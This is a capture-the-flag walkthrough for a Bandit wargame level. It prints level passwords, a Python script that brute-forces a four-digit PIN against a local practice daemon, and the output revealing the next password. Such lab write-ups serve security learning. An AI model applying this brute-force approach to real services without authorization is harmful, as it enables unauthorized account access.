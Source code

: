 <hr>

- Username: bandit24 <br>
- Password: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
- Task: A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.


This task requires some python/bash/scripting skills. 
I used python to create a script that connects to the port and sends all combinations together with the password:

```python
    1 	import socket
    2 	
    3 	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    4 	s.connect(('localhost', 30002)); s.recv(1024)
    5 	
    6 	for i in range(10):
    7 	        for j in range(10):
    8 	                for k in range(10):
    9 	                        for l in range(10):
   10 	                                pin=str(i)+str(j)+str(k)+str(l)
   11 	                                print("sending "+pin)
   12 	                                s.sendall(str.encode('VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar ' + pin +'\n'))
   13 	                                data = s.recv(1024).decode()
   14 	                                if not data.startswith('Wrong'):
   15 	                                        print('PIN '+pin+': '+data)
   16 	                                        exit()


```
```bash
bandit24@bandit:/tmp/tempkru$ python3 brute.py
sending 0000 
sending 0001 
sending 0002 
sending 0003 
sending 0004 
sending 0005 
sending 0006 
sending 0007 
sending 0008 
sending 0009 
sending 0010 
sending 0011 
sending 0012 
sending 0013 
sending 0014 
sending 0015 
sending 0016 
sending 0017 
sending 0018 
sending 0019 
sending 0020 
...
sending 1021
sending 1022
sending 1023
sending 1024
sending 1025
PIN 1025: Correct! 
The password of user bandit 25 is p7TaowMYrmu23018hiZh9UvD009hpx8d 
Exiting. 
```